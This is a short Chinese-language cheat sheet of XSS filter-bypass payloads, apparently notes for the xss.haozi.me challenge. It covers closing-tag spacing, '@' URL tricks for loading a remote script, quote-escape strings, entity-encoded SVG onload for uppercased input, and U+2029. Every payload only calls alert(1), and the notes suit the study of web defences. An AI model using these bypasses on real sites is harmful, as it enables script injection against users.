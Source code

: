 ```js
闭合标签空格绕过
</style ><script>alert(1)</script>
```

```
@ 符号绕过 url 限制
例如:https://www.segmentfault.com@xss.haozi.me/j.js
其实访问的是 @ 后面的内容
```

```
") 逃逸函数后接分号
例:");alert(1)//
```

```
绕过转义限制
例:
\")
alert(1) //
```

#### 输入会被大写化

先把纯文本字符转换为 HTML 实体字符, 然后对其进行 URL 编码, 最后用 SVG 标记的 onload 参数输出
```html
<svg onload=%26%23x61%3B%26%23x6C%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x27%3B%26%23x48%3B%26%23x69%3B%26%23x20%3B%26%23x4D%3B%26%23x6F%3B%26%23x6D%3B%26%23x27%3B%26%23x29%3B>
```

#### U+2029 XSS

段落分隔符，即 U+2029，是用于字符分隔的 Unicode 值，但它是一个在网络上不常使用的字符。

```js
#!@*% alert(1)
```
